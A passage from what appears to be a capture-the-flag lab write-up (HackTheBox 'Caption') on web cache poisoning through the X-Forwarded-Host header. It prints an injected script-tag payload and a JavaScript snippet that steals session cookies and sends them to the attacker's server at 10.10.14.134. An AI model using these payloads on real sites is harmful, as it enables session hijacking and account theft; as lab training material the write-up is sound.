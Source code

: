 Great, we got a positive result the URL has successfully changed! Now, we can either wait for the cache to expire or modify the data further to exploit this behavior. By iterating through each header, we can identify the vulnerable one that fails to properly sanitize or escape special characters.

After testing, it turns out that the `X-Forwarded-Host` header is a valid candidate for exploitation.

With this information, it's time to escalate. I crafted the following payload to load exploits directly from my local Python web server, avoiding the need to include the exploit code directly in the header itself. This approach allows for easier payload delivery and testing flexibility.

```bash
X-Forwarded-Host: 127.0.0.1"> </script> <script src="http://10.10.14.134:8000/exploit.js"></script> <!--
```

Our exploit.js involves a JavaScript file that collects all session cookies and forwards them to me.
```javascript
(function stealCookies() {
    let xhr = new XMLHttpRequest();
    let cookieData = document.cookie;
    xhr.open("GET", "http://10.10.14.134:8000?cookies=" + encodeURIComponent(cookieData), true);
    xhr.send();
})();
```
Forwading the request, we get a callback 
![alt text](/assets/blog/HTB-Caption/firewall_burp3.png)

![alt text](/assets/blog/HTB-Caption/callback_admin.png)
